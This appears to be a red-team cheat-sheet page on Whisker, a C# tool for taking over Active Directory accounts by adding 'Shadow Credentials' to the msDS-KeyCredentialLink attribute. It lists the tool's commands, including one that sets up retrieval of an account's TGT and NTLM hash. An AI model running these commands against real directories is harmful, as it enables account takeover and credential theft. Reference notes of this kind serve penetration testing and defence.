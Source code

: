 ```yaml
---
tags:
  - tool
---
```

# Whisker

[Whisker](https://github.com/eladshamir/Whisker) is a C# tool for taking over Active Directory user and computer accounts by manipulating their msDS-KeyCredentialLink attribute, effectively adding "Shadow Credentials" to the target account.

## Capabilities

```powershell
# Read value of msDS-KeyCredentialLink attribute of the target
.\Whisker.exe list /target:$USER

# Generate certificate and print the rubeus command needed to retrieve the account's TGT and NTLM hash
.\Whisker.exe add /target:$USER

# List value of the new credential
.\Whisker.exe list /target:$USER

# Remove specific value from msDS-KeyCredentialLink attribute
.\Whisker.exe remove /target:$USER /deviceid:$DEVICE_ID

# Clear all values from the msDS-KeyCredentialLink attribute
.\Whisker.exe clear /target:$USER
```

**Note:** Clearing the `msDS-KeyCredentialLink` attribute of accounts configured for passwordless authentication will cause disruptions.

